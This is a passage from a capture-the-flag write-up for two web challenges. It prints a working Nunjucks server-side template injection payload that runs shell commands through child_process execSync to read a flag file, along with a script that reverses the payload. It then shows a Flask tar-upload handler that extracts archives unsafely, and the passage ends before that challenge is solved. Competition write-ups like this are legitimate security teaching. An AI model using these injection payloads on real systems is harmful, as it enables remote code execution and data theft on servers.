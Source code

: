 Here we can see that it uses nunjucks and reverses our input. The call to ``nunjucks.renderString`` with our input allows us to perform SSTI.

We do however, need to have a payload without any spaces. For this I ended up with the following payload:
```js
{{range.constructor(\"return(global.process.mainModule.require('child_process').execSync('cat${IFS}/flag.txt'))\")()}}
```

In order to properly reverse the output I made a simple js script:
```js
const input = "{{range.constructor(\"return(global.process.mainModule.require('child_process').execSync('cat${IFS}/flag.txt'))\")()}}"
const reversed = [...input].reverse().join("")
console.log(reversed)
```

Which gives:
```js
}})()"))'txt.galf/}SFI{$tac'(cnyScexe.)'ssecorp_dlihc'(eriuqer.eludoMniam.ssecorp.labolg(nruter"(rotcurtsnoc.egnar{{
```

Inputting this on the website gets us the flag:
``DDC{templating-gone-wrong} ``

![Flag screen for template trap](/DDC25National/templateFlag.png)

### Photo Album
###### 100pts - 25 solves
> Upload dine billeder!

Upon visiting the page we can see that we are able to upload a ``TAR`` file:
![Photo Album homepage](/DDC25National/photoAlbum.png)

By looking into the source we can find the interesting upload function:
```py
@app.route("/", methods=["GET", "POST"])
def upload_file():
    if request.method == "POST":
        if "file" not in request.files:
            return "No file uploaded!", 400

        file = request.files["file"]
        if not allowed_file(file.filename):
            return "📸 Sorry, this isn't a file-sharing site for random files. **JPEGs, PNGs, or TARs with images only!** 🛑", 400

        file_ext = os.path.splitext(file.filename)[1].lower()
        file_path = os.path.join(UPLOAD_FOLDER, file.filename)
        file.save(file_path)

        if file_ext == ".tar":
            if not has_only_images_in_tar(file_path):
                os.remove(file_path)
                return "🤔 Hmmm... This doesn't look like an image. Try again with something *less suspicious*... 👀", 400

            try:
                with tarfile.open(file_path, "r") as tar_ref:
                    tar_ref.extractall(EXTRACT_FOLDER)
                return render_template("success.html")
            except Exception as e:
                return f"Extraction failed: {str(e)}", 500
        else:
```